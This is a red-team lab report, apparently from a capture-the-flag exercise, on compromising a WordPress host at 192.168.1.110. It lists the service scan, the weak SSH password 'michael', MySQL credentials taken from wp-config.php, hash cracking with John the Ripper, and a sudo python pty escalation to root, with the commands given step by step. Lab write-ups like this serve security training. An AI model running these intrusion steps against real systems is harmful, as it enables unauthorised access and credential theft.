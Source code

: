 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
###- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: **MEDIUM**)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity: **HIGH**)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: **HIGH**)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: **MEDIUM-HIGH**)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

### 1. <ins>**flag1.txt**:</ins> `b9bbcb33ellb80be759c4e844862482d`
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`


<img src="/Images/wpscan-users.png">
                <img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
            - Password: *michael*
- SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html
        - Commands:
            - `ssh michael@192.168.1.110`
            - `pw: michael`
            - `cd /var/www/html`
            - `ls -l`
            - `nano service.html`

### 2. <ins>**flag2.txt:**</ins> `fc3fd58dcdad9ab23faca6e9a3e581c`
- **Exploit Used**
    - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
        - Simple directory exploration found the **'flag2.txt'** file plainly visible in the /var/www/ directory.
            - `cd /var/www/`
            - `ls -l`
            - `cat flag2.txt`
                <img src="/Images/flag2.png">

### 3. <ins>**Flag3:**</ins> `afc01ab56b50591e7dccf93122770cd2`
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


### 4. <ins>**Flag4:**</ins> `715dea6c055b9fe3337544932f2941ce`
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

            - Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
                - Commands: 
                    - `ssh steven@192.168.1.110`
                    - `pw:pink84`
                    - `sudo -l`
                    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                    - `cd /root`
                    - `ls`
                    - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">